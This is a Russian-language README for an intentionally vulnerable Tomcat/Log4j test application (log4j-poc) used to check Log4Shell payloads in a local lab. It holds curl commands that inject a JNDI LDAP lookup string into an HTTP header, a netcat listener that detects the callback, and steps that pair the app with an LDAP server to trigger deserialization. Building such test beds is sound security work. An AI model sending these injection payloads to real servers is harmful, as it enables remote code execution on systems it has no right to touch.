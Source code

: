 # log4j-poc

Тестовое веб-приложение на основе Tomcat 10.1 (OpenJDK 21),
включающее уязвимую версию библиотеки Log4j 2.x версии 2.25
с внесенной уязвимостью Log4Shell. Уязвимое приложение
позволяет эксплуатацию в HTTP-заголовках, отправляемых в лог
Tomcat (/usr/local/tomcat/logs/catalina.out). Приложение
предназначено для целей тестирования и проверки полезных
нагрузок.

# Сборка и запуск

Для сборки и запуска необходима POSIX-совместимая операционная
система, включающая следующие компоненты:

- git
- docker
- curl

# сборка

```
git clone https://github.com/sercher/log4j-poc.git
cd log4j-poc
docker build -t log4j-poc:latest .
```

# запуск

```
docker run -d -p 8080:8080 --add-host=host:host-gateway log4j-poc
```

Запущенное приложение доступно по адресу

```
localhost:8080/myapp
```

# Проверка lookup без добавления полезной нагрузки

```
(
  nc -q1 -l 1389 &>/dev/null && echo '[!] VULNERABLE TO LOG4SHELL' &
  pid=$!
  curl -H 'Header-poc: ${jndi:ldap://host:1389/a}' 'http://localhost:8080/myapp/'
  sleep 1
  kill -9 $pid 2>/dev/null
)
```

Альтернативно можно использовать готовый собранный образ

```
docker pull sercher78/sercher:log4j-poc-small
```

Тогда запуск приложения будет осуществляться командой

```
docker run -d -p 8080:8080 --add-host=host:host-gateway sercher78/sercher:log4j-poc-small
```

# Проверка сериализации с добавлением полезной нагрузки

- maven
- сборка LDAP сервера (см. [ldap-server](https://github.com/sercher/ldap-server))

```
git clone https://github.com/sercher/ldap-server.git
cd ldap-server
mvn clean compile assembly:single
```

- запуск LDAP сервера

```
java -cp target/ldap-server-1.0-SNAPSHOT-jar-with-dependencies.jar LdapServer &
```

- проверка сериализации

```
(
  curl -H 'Header-poc: ${jndi:ldap://host:1389/a}' 'http://localhost:8080/myapp/' &>/dev/null && \
  docker exec -it $(docker ps -lq) tail /usr/local/tomcat/logs/application.log | grep OBJECT-DESERIALIZED && echo '[!] HIGHLY VULNERABLE TO LOG4SHELL'
)
```

- остановка LDAP сервера

```
fg
нажать <CTRL-C>
```

Отчет об уязвимостях docker hub:
- [sercher78/sercher:log4j-poc-small](https://hub.docker.com/repository/docker/sercher78/sercher/tags/log4j-poc-small/sha256-cb427a65309db895a21077ddb11de540ae629f4b9ddd0acab6f74a65376a1487)

Обнаруженные уязвимости целиком находятся во внутреннем слое (tomcat:10)